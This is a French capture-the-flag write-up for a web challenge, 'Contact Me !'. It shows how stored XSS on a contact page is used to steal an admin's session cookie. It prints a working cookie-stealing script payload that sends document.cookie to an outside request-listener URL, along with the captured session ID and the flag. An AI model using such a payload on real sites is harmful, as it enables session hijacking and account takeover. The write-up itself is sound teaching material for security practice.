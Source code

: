 <h1>Contact Me !</h1>

<h4>Description :</b> Un petit développeur a mis en place un serveur où vous pouvez le contacter.
Malheureusement, une des pages n'est pas accessible, et j'ai vraiment envie de savoir ce qu'elle cache... Vous pouvez le faire pour moi ?</h4>

Quand on voit le titre du challenge, on imagine assez facilement qu'il va falloir effectuer une attaque de type XSS pour pouvoir avoir accès à la page secrête.
En allant sur la page, elle revoie : <b>This page is PRIVATE!</b>

On essaye une attaque de base pour vérifier que les scripts sont exécutés par la page :
`<script>alert(1)</script>`

Le script fonctionne !
Pour accèder à la page secrète, il va sûrement falloir voler le cookie de l'administrateur.
Comme les scripts sont éxécutés par l'admin, si on écrit un payload pour renvoyer le cookie de la page, celui qui va être renvoyé le sien.

Payload : <br/>
`<script>document.write('<img src="https://hookb.in/9X1qnEMbdnI600eMoWM7?cookie='+document.cookie+'">I'm a cookie stealer :p</img>');</script>`

Ce script permet de dermander à l'administrateur de renvoyer le cookie à l'adresse `https://hookb.in/9X1qnEMbdnI600eMoWM7` qui est un écouteur de requêtes.

Après envoi du payload, on retrouve bien sur l'endpoint le cookie renvoyée par l'admin : <br/> 
`cookie: PHPSESSID=3f1f8431f0ed4202893dc4cb19a36021`

Au niveau du referer dans la requête c'est intéressant de voir cela : <br/>
`referer: http://localhost/index.php?botSenpai=sess_93db8da8292c8ce9bd44f193450eb8f2`

On peut maintenant essayer de se connecter à la page admin.php en changean notre cookie.
Et voilà le flag : `Hero{b3_c4r3ful_w1th_xss_!!}`

